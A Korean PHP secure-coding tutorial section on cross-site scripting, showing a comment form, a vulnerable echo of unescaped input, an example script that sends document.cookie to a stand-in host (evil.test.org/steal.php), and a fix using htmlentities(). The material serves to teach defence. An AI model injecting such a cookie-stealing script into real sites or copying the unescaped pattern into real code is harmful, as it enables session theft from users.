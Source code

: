 # 7. 크로스 사이트 스크립팅
 크로스 사이트 스크립팅(XSS, Cross-Site Scripting)은 가장 유명한 공격 유형으로 모든 플랫폼에서 대부분의 응용프로그램들을 공격하고 있습니다. 모든 입력폼이 공격 대상이되고, 크로스 사이트 스크립팅의 취약점을 보완하기 위해 필터링과 이스케이프는 필수적인 요소입니다.

 EX) 페이지에 코멘트를 입력할 수 있는 폼
 ```
 <form action="comment.php" method="POST" />
    <p>Name: <input type="text" name="name" /><br />
    Comment: <textarea name="comment" rows="10" cols="60"></textarea><br />
    <input type="submit" value="Add Comment" /></p>
</form>
 ```
  form에서 받은 데이터를 다른 사용자에게 보여주는 코드는 아래와 같습니다.
```
<?php
    echo "<p>$name writes:<br />";
    echo "<blockquote>$comment</blockquote>";
?>
```
 위 코드는 $name과 $comment 변수 값을 매우 신뢰하고 있습니다. 하지만 스크립트 코드가 삽입된다면
```
<script>
    document.location = 'http://evil.test.org/steal.php?cookies=' + document.cookie
</script>
```
 위 코드는 공격자가 작성한 자바스크립트를 추가할 수 있게 허용한 것과 같습니다. 자신의 쿠기 값이 evil.test.org의 steal.php GET 파라미터로 전송되고 모든 내용을 읽을 수 있게 됩니다. 그래서 이를 말기 위해 입력 필터링하고, 출력을 이스케이프는 필수적으로 이루어져야 합니다. 클라이언트에 데이터를 보낼 때 이스케이프하기 위해 사용하는 대표적인 함수는 htmlentities() 입니다. 모든 특수 문자를 HTML 엔티티(entity)로 변환합니다. 
 * HTML 엔티티는 &약어;나 &#숫자;의 형태로 표현하는 것을 의미하며 <은 &lt;로 >은 &gt; 로 표현합니다. 여기서 htmlentities()는 iso-8859-1 인코딩을 기준으로 변환하기 때문에 일부 한글은 &#숫자;의 형태로 표현됩니다. PHP 4.3 이 후는 htmleneities의 세번째 인자로 인코딩을 지정할 수 있지만 한글 인코딩은 지원하지 않았습니다. 그래서 EUC-KR에서 온전하게 한글을 표현하려면 htmlspecialchars()를 사용해야 합니다. 하지만 htmlspecialchars()는 철벽 방어가 불가능합니다. UTF-8 인코딩으로 사이트를 구축하는 경우에는 htmlentities()의 세번째 인자를 UTF-8로 지정해서 사용할 수 있으며, 안전한 사이트를 구축을 할 수 있습니다. 하지만 PHP 4.x 일부 버전에서는 UTF-8에서 htmlentities($value, ENT_QUOTES, UTF-8)과 같은 형태에서 한글이 깨지는 버그를 가진 것도 있습니다.
 
### 좋은 예)
```
<?php
    $clean = array();
    $html = array();

    $html['name'] = htmlentities($clean['name'], ENT_QUOTES, 'UTF-8');
    $html['comment'] = htmlentities($clean['comment'], ENT_QUOTES, 'UTF-8');

    echo "<p>{ $html['name']} writes:<br />";
    echo "<blockquote>{ $html['comment']}</blockquote></p>";
?>
```
